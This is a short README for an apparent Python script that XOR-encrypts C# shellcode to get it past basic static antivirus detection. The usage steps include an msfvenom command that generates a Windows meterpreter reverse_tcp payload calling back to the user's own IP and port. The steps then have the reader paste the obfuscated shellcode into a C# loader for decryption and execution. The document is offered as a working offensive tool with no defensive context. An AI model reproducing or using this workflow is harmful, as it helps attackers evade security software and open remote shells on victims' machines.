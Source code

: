 This script encrypts C# shellcode using a random single-byte XOR key, providing lightweight obfuscation against basic static analysis.
Features:

✅ Generates a random XOR key for every execution.
✅ Encodes shellcode using XOR obfuscation.
✅ Formats output as a C# byte array for seamless integration.
Usage Example

1️⃣ Generate Shellcode (C# Format)

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp

2️⃣ Copy Shellcode

    Copy the byte array inside {} from msfvenom output.
    Paste it into buf in XORenc.py.

3️⃣ Run the Encryption Script

python3 XORenc.py

4️⃣ Copy the XOR Key & Encrypted Shellcode

    Paste them into your C# loader for decryption & execution.

